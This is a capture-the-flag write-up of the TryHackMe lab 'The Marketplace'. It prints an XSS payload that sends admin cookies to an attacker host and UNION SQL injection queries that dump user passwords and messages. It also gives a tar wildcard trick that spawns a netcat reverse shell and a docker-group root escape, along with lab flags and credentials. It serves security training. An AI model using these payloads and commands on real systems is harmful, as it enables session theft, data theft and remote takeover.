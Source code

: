 #### Enumeration
First of, lets try to nmap and see how many ports opened.

![[Pasted image 20211124094749.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/The%20Marketplace/attachments/Pasted%20image%2020211124094749.png)

We can see that port 22, 80 and 32768 are opened.

Let's try to visit the website; both http ports of 80 and 32768 have the same web appearance. 

At the same time I run dirsearch as to enumerate as many directories that we might miss out.

![[Pasted image 20211124095411.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/The%20Marketplace/attachments/Pasted%20image%2020211124095411.png)

#### XSS Scripting
There is a new listing we can do, at first I thought we can insert malicious php file but I was wrong. I got stuck and after several lookups I got it that this is an XSS vulnerability. First let's put this code as the payload for our XSS in the title value

`<script>fetch("http://10.4.44.74:8000/"+document.cookie)</script>asdf`

Then let's open our our port to 8000. This basically can be achieve with `python3 -m http.server 8000` (default port: 8000) or `python SimpleHTTPServer`. Then after submission, we get a token value.

![[Pasted image 20211124095446.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/The%20Marketplace/attachments/Pasted%20image%2020211124095446.png)

The first token is our submission to the web, the second is achieved by reporting our listing as it mentioned that "One of the admin will take a look at the report"

We want one of the admin to click on it and obtain their token and we got it. We can copy the code from our terminal and paste it to our developer console. Since I'm using Chrome, it is situated at Application > Cookies

Right after changed ourself into one of the admin, we can get the flag in Administration Panel

'THM{c37a63895910e478f28669b048c348d5}'

![[Pasted image 20211124095648.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/The%20Marketplace/attachments/Pasted%20image%2020211124095648.png)

#### SQL injection

![[Pasted image 20211124094529.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/The%20Marketplace/attachments/Pasted%20image%2020211124094529.png)

This is what happen when we insert until value 5

![[Pasted image 20211124094043.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/The%20Marketplace/attachments/Pasted%20image%2020211124094043.png)

by inserting  `union select 1,2,3,4`  we can get a reflective value. In this case, its 1 and 2  are reflected.

![[Pasted image 20211124100545.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/The%20Marketplace/attachments/Pasted%20image%2020211124100545.png)
![[Pasted image 20211124100533.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/The%20Marketplace/attachments/Pasted%20image%2020211124100533.png)

Let's get the database name; by replacing value 2 with `database()` ; we can obtain the database name
`union select 1,database(),3,4`

![[Pasted image 20211124100740.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/The%20Marketplace/attachments/Pasted%20image%2020211124100740.png)

Since we know that the database name is 'marketplace'. Let's try to get the tables under it.

`union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='marketplace'`

![[Pasted image 20211124101140.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/The%20Marketplace/attachments/Pasted%20image%2020211124101140.png)

We get table name items, messages and users. Let's try to get the column name available for 'users'

`union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='users'`

![[Pasted image 20211124101407.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/The%20Marketplace/attachments/Pasted%20image%2020211124101407.png)

Attempt to get the password of the users
`union select 1,group_concat(password),3,4 from users`

![[Pasted image 20211124101909.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/The%20Marketplace/attachments/Pasted%20image%2020211124101909.png)

 I don't think there's any important information but lets just save the hash in case. Now let's get into the message and see what it got.

`union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='messages'`

![[Pasted image 20211124102304.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/The%20Marketplace/attachments/Pasted%20image%2020211124102304.png)

Let's read user_from , message_content and , user_to

`union select 1,group_concat(user_from,+message_content,+user_to),3,4 from messages`

Since it's kinda hard for us to see, so I put some changes to make it looks more easier to read. 

`union select 1,group_concat(user_from,+":-- ",+message_content,+" -->",+user_to),3,4 from messages` or you can customize however you like

![[Pasted image 20211124103524.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/The%20Marketplace/attachments/Pasted%20image%2020211124103524.png)

"User SENDER 1:-- Hello! An automated system has detected your SSH password is too weak and needs to be changed. You have been generated a new temporary password. Your new password is: **@b_ENXkGYUCAv3zJ** -->** RECEIPIENT 3**, SENDER 1:-- Thank you for your report. One of our admins will evaluate whether the listing you reported breaks our guidelines and will get back to you via private message. Thanks for using The Marketplace! --> RECEIPIENT 4, SENDER 1:-- Thank you for your report. We have reviewed the listing and found nothing that violates our rules. --> RECEIPIENT 4, SENDER 1:-- Thank you for your report. One of our admins will evaluate whether the listing you reported breaks our guidelines and will get back to you via private message. Thanks for using The Marketplace! --> RECEIPIENT 4, SENDER 1:-- Thank you for your report. We have reviewed the listing and found nothing that violates our rules. --> RECEIPIENT 4"

We get the password but we dont know who is user 3, lets change the user=0 to user=3.

![[Pasted image 20211124103819.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/The%20Marketplace/attachments/Pasted%20image%2020211124103819.png)

Now we know that user 3's SSH username and password is jake and @b_ENXkGYUCAv3zJ respectively, lets try to SSH it


Boom! We're in as Jake. There is flag and just cat into it

'THM{c3648ee7af1369676e3e4b15da6dc0b4'

![[Pasted image 20211124103921.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/The%20Marketplace/attachments/Pasted%20image%2020211124103921.png)

Let's see what user Jake can do with the sudo command `sudo -l`
![[Pasted image 20211124104156.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/The%20Marketplace/attachments/Pasted%20image%2020211124104156.png)

It seems that user Jake can run as michael without any password on /opt/backups/backup.sh

The file is indeed owned by michael and we can run it with jake by reading it
It seems that the bash file is backing up everything in the /opt/backups directory.

Since there is a wildcard * present with tar commands, we can exploit it and summon a reverse shell.

cd to the backup.sh directory; /opt/backups/

```
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.4.44.74 1234 >/tmp/f" > shell.sh

sudo -u michael ./backup.sh
```

If there is an error; try to rename the existed backup.tar or move it to somewhere else
`mv backup.tar lol.tar`

![[Pasted image 20211124111235.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/The%20Marketplace/attachments/Pasted%20image%2020211124111235.png)

Since michael is within Docker Group. We can run `docker run -v /:/mnt --rm -it alpine chroot /mnt sh`

By going to GTFOBin we can search for docker;

![[Pasted image 20211124112150.png]](https://github.com/0xK4gura/notes/blob/main/TryHackMe/Writeup/The%20Marketplace/attachments/Pasted%20image%2020211124112150.png)

This command make us mount as the root user for the root filesystem to /mnt. The root is in /root/root.txt